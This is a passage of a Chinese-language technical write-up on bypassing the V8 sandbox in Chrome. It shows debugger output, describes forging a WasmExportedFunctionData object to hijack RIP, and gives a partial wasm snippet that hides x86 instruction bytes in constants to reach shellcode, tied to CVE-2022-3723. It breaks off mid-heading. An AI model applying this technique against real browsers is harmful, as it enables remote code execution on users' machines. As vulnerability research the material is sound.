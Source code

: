   

SharedFunctionInfo 显示地址 **0x1f290011c109** 处的 **function_data** 对象，检查该对象显示：

  *   *   *   *   * 

    
    
    0x1f290011c109: [WasmExportedFunctionData] in OldSpace - map: 0x1f2900001e95 <Map[44](WASM_EXPORTED_FUNCTION_DATA_TYPE)> - internal: 0x1f290011c0f1 <Other heap object (WASM_INTERNAL_FUNCTION_TYPE)> - wrapper_code: 0x1f2900303979 <Code BUILTIN JSToWasmWrapper> - js_promise_flags: 0

  
尽管 **0x1f2900303979**
在解析时很明显，但在内存中它以相反的顺序出现，这可以通过轻微的布局调整来解决，这里的要点是wrapper_code。

在最新的 v8 中，我们看到它当前为只读属性：

  *   *   *   * 

    
    
    (gdb) vmmap 0x1f2900303979[ Legend:  Code | Heap | Stack ]Start              End                Offset             Perm Path0x00001f2900300000 0x00001f2900318000 0x0000000000000000 r--

然而，我们可以伪造这个对象，下图是在最新Chrome 115.0.5790.170上的测试：

![]()

  

对象地址为 **0x109900233314** ，通过将 **0x10990023332C** 处的数据修改为 **0x002333B5** ，然后伪造
**0x1099002333B4** 处的对象，成功劫持该地址，使其指向wasm地址 **0x037557588B010** （实际的wasm模块起始地址为
**0x37557588B000** ），如图所示，RIP被成功劫持到包含 **0xCC** 的 **0x037557588B010**
，命中gdb中的断点。

#  **  0x03-issue1378239 绕过：**

  
issues1378239-CVE-2022–3723 影响 Chrome 107.0.5304.62 及更早版本，这是 2022 年捕获的在野
0day，但该问题的详细信息尚未发布，鉴于 Google 的公开 PoC，任意相对读/写很容易实现，因此省略了利用原文，因为本文更希望专注于 v8
沙箱绕过。

通过任意读/写，可以泄漏 wasm 地址，然后客户端将其与 wasm 请求一起发送到远程服务器，·服务器收到地址后，立即编译并返回 wasm
字节码，由于我们可以控制 RIP，巧妙设计的 wasm 代码会将 RIP 劫持到 wasm 中未对齐的字节码中，详细如下：

  *   *   *   *   *   *   * 

    
    
    var wasm_code = `(module  (func $f (export "f") (param i64)  (call $f (i64.const 0x12EB9060B0C03148)) ;; 48 31 C0 B0 60 90 EB 12  (call $f (i64.const 0x0BEB9090008B4865)) ;; 65 48 8B 00 90 90 EB 0B…………

  
编译后，上述wasm代码在最新的Chrome中具有RWX权限，但在107.0.5304.63中仅具有RX权限，因为我们可以控制 **$f**
函数参数，来实现执行任意代码，前两个字节 **48 31** 将转向下一个可控字节码，因此，在这个 wasm
中，可以执行等效的汇编，同时跳转到下一个序列，逐渐调用 VirtualProtect 并跳转到 ShellCode，具体可参阅 GitHub 了解细节。

#  **0x04-issue1378239的注释：  
  